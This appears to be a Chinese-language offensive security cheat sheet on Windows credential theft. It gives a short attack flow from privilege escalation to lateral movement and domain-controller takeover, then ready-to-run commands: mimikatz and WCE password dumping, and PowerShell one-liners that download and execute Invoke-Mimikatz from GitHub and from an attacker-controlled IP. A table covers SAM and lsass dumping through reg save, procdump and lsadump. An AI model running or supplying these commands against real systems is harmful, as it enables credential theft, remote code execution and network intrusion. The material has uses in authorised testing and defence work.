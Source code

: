 # Windows

## 1 系统凭据

https://cloud.tencent.com/developer/article/1656546

下面这些工具对凭据的分析普遍需要管理员权限。一般来说，对于windows的凭据窃取类攻击流程是这么玩的：

拿到一台windows，尽可能的提到高权限，检查是否有域，有的话用使用凭据收集得到的口令、哈希、密钥、票据进行横向移动。定位域控，如果能传递攻击拿到域控权限最好，或者对域控采用漏洞攻击。

### 1.1 口令

#### 1.1.1 mimikatz

```shell
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

![2021-07-07_164814](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-07_164814.jpg)

#### 1.1.2  wce

```shell
wce.exe -w
```

![2021-07-07_164847](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-07_164847.jpg)

![2021-07-07_170818](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-07_170818.jpg)

#### 1.1.3 powershell+mimikatz

```cmd
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

powershell "IEX(New-Object System.Net.Webclient).DownloadString('http://10.10.10.128/Powershell/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
```



![2021-07-07_165336](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-07_165336.jpg)

![2021-07-07_165320](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-07_165320.jpg)

### 1.2 哈希

可用于PTH及口令破解。获取哈希普遍需要管理员权限。

| 目标  | 工具               | 方法 | 命令                                                         |
| ----- | ------------------ | ---- | ------------------------------------------------------------ |
| SAM   | mimikatz           | 在线 | .\mimikatz.exe "log res.txt" "privilege::debug"  "token::elevate" "lsadump::sam" "exit" |
| SAM   | reg                | 离线 | reg save HKLM\SYSTEM  SYSTEM<br/>reg save HKLM\SAM SAM       |
|       | mimikatz           | 在线 | .\mimikatz.exe "privilege::debug"  "sekurlsa::logonpasswords" "exit" |
| SAM   | Pwdump             |      |                                                              |
| lsass | procdump           | 离线 | procdump.exe -accepteula -ma  lsass.exe lsass.dmp<br/>mimikatz.exe "sekurlsa::mimidump lsass.dmp" "log"  "sekurlsa::logonpasswords" |
| lsass | mimikatz           | 在线 | .\mimikatz.exe "privilege::debug" "lsadump::lsa  /patch" "exit" |
| lsass | wce                | 在线 | .\wce.exe -l                                                 |
| lsass | 任务管理器         | 离线 | 在进程栏内找到lsass.exe手工转储进程信息                      |